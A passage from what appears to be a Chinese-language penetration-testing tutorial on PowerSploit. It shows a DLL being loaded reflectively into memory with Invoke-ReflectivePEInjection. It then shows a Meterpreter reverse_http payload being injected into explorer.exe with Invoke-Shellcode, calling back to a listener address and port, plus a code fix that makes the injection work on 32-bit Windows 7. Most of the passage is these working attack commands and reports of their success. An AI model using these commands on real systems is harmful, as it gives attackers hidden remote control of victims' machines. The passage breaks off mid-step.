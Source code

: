**测试5：**

```
> 使用Powershell加载DemoDLL.dll

```

在Invoke-ReflectivePEInjection.ps1尾部添加

```
Invoke-ReflectivePEInjection -PEPath DemoDLL.dll -FuncReturnType WString

```

保存为5-CodeExecution-dll.ps1

在win7 x86下成功加载导出函数WStringFunc()，如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/e060058a22af1ad641f6f4a36ffeb77ec6ffbc37.jpg)

在win7 x64下，换成64位的DemoDLL，成功，如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/9316f831bf6e89cf97b4b14bf4172ff1ebe80941.jpg)

win8 x86成功，略。  
win8 x64成功，略。

0x04 Process Injection
=====

参考地址：  
[https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke--Shellcode.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke--Shellcode.ps1)

1、通过powershell向其他进程注入shellcode
------------------------------

**测试6：**

```
> 通过powershell向explorer.exe注入meterpreter

```

在Invoke--Shellcode.ps1尾部添加如下代码，保存为6-Process Injection-Shellcode.ps1

```
$Proc = Get-Process explorer
Invoke-Shellcode -ProcessId $Proc.Id -Payload windows/meterpreter/reverse_http -Lhost 192.168.16.245 -Lport 8083 -Verbose

```

在win7 x86下执行报错，如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/f6bc4a9c6e807ead7333ee9043cacd347439bb99.jpg)

通过阅读代码找到错误原因，需要手动指定系统判断，因此需要在337行添加`$64bitCPU = $false`

再次运行，解决问题，meterpreter成功注入到explorer.exe中，如图
